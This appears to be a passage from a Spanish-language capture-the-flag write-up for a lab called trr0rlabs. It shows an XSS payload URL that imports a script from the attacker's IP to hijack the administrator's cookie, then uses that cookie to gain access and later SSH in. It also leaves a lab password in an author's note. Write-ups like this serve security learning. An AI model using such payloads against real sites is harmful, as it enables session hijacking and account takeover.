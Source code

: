![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202224957.png>)

Enviaremos el siguiente link al usuario **administrador** para acontecer un **Cookie Hijacking**.

> Se destaca la importancia de que el link se encuentre **URL Encodeado**, pues de diferente forma no funcionará.

```http
http://trr0rlabs.bbl/form.php/%22%3E%3Cimg%20src/onerror=import('http:172.17.0.1/pwned.js')%3E
```

Tras esperar muy poco tiempo veremos que recibimos una petición de la [Dirección IP](<../../Introducción al Hacking/Conceptos Básicos/Dirección IP.md>) `172.17.0.2`, es decir de la máquina víctima por lo que supuestamente tenemos la **cookie** del usuario **administrador** gracias a un [XSS](<../../Introducción al Hacking/OWASP TOP 10 y vulnerabilidades web/XSS (Cross-Site Scripting)/XSS.md>) y a la imprudencia de dicho usuario.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202222820.png>)

Nos copiaremos dicha **cookie** y la pondremos en el navegador accediendo a **Application -> Cookies** en las **DevTools** del navegador.

Tal y como vemos a continuación corroboraremos que dicha **cookie** es del usuario **administrador**.

> Cambiar captura ya que la contraseña es **trr0radmiñç**

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202222839.png>)

Atendiendo al mensaje accedemos a través de **ssh** y serremos capaces de verla **flag** necesaria para completar el formulario.
